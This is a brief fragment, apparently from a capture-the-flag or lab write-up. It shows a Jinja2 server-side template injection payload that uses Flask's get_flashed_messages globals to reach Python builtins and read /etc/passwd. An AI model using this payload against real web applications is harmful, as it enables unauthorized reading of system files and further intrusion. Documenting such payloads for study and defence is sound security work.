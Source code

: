 This was the payload used to read ```/etc/passwd``` file.

```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```